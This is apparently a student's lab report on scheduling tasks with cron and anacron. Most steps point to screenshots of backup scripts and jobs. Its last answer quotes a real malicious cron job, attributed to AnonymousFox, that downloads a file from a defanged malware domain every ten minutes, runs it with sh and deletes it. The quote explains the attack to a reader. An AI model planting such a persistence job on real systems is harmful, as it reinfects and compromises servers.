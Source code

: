 ## System and Network Administration - Lab 8 - Scheduling tasks
    Jaffar Totanji - j.totanji@innopolis.university

### Questions to answer:
1. 
    ***Part 1:***
    
    Let's first create a script `backup.sh` to make our backups:

    ![image](1.png)

    Testing the script to see if everything is working as intended:

    ![image](3.png)

    We can now create a cronjob to run our script:

    ![image](2.png)

    ***Part 2:***

    Our second script `backup2.sh` looks very similar to the first with the exception of deleting the old if it exists previously:

    ![image](4.png)

    Testing the script to see if everything is working as intended:

    ![image](5.png)

    We can now create an anacron job to run our script:

    ![image](6.png)

2.  After installing `nginx`, we can take a look at the file we want to back up:

    ![image](7.png)

    Let's edit our previous script to back up this directory:

    ![image](8.png)

    Testing the script to see if everything is working as intended:

    ![image](9.png)

    We can now create a cronjob to run our script:

    ![image](10.png)

3. Let's first create some scripts for our cronjobs to run:

    ![image](11.png)
    ![image](12.png)
    ![image](13.png)
    ![image](14.png)

    We can now create cronjobs to run our scripts:

    ![image](15.png)

4. Cronjobs can be abused in a multitude of ways, `Cron Privilege Escalation` and `Reinfection Abuse` to name a few. 

    A good example here is `AnonymousFox`’s reinfection abuse where they use a cron job to reinfect someone within a very short period of time.
    Such reinfection can cause malicious behavior such as running malicious processes, interfering with server operations, etc.

    The cronjob itself looks something like this:

        */10 * * * * curl -so gojj hxxp://golang666[.]xyz/css[.]index && /bin/sh gojj /home/[REDACTED]/public_html/[REDACTED] && rm -f gojj
    
    - ***Execution frequency:*** */10 * * * * which runs the command every 10 minutes 
    - ***Command:*** `curl`
    - ***Objective:*** Grabbing content from a malware domain that gets extracted into ./css/index.php

## End of Exercises

## Resources:
- https://blog.sucuri.net/2022/03/new-wave-of-anonymousfox-cron-jobs.html